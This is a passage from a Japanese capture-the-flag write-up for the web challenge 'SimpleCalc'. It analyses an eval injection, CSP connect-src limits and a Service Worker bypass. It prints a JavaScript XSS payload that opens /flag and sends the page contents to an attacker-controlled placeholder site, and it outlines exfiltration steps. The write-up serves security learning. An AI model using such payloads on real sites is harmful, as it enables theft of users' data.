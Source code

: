 exprパラメータに入力した式をevalしていることが分かる。  
フラグを取得するには、`/flag`にアクセスする際に以下の条件が必要。

- クッキーに`ADMIN_TOKEN`を付ける。
- リクエストヘッダに`X-FLAG`を付ける。

また、CSPヘッダとして`Content-Security-Policy: default-src http://<target>:3000/js/index.js 'unsafe-eval';`がある。

リクエストヘッダが厄介で、XHRやfetch等によってヘッダを付与する必要がある。
しかし、connect-srcも制限されるため、指定されているsrc以外では以下が使えない。

- a, ping
- fetch()
- XMLHttpRequest
- WebSocket
- EventSource
- Navigator.sendBeacon()

参考: <https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/connect-src>

それがなければ以下のペイロードで終われた。

```js
var form = document.createElement('FORM');
form.method='GET';
form.action='/flag';
form.target='newWindow';
document.body.appendChild(form);
let w = window.open("","newWindow");
form.submit();
setTimeout(()=>{
  document.location= `https://mysite/?c=${w.document.body.innerHTML}`
},500);
```

そのため、別の方法を考える必要がある。  
後から他の人のWriteupを見て2パターンの方法があるっぽい。  
Service Workerの方法は試していたが、やり方が間違っていたらしく惜しかった。

### [web/SimpleCalc] 解法1

Service Workerを使う方法。想定解法らしい。  
どおりで`Note: Don't forget that the target host is localhost from the admin bot.`と書いてあったのかと思った。  
Service Workerはhttpsかlocalhostでしか使えないためと思われる。

- 手順

1. evalでService Workerを登録する。
1. Service Workerにリクエストを送り、スクリプトを埋め込んだHTMLを返させる。
1. /flagへfetchが実行される。
1. レスポンスの内容を自身のサイトに飛ばす。

- Service Worker内で動かすスクリプト
  - リクエスト判別のため、if文を入れている。
  - documentは何かしら返さないとエラーになるっぽい。
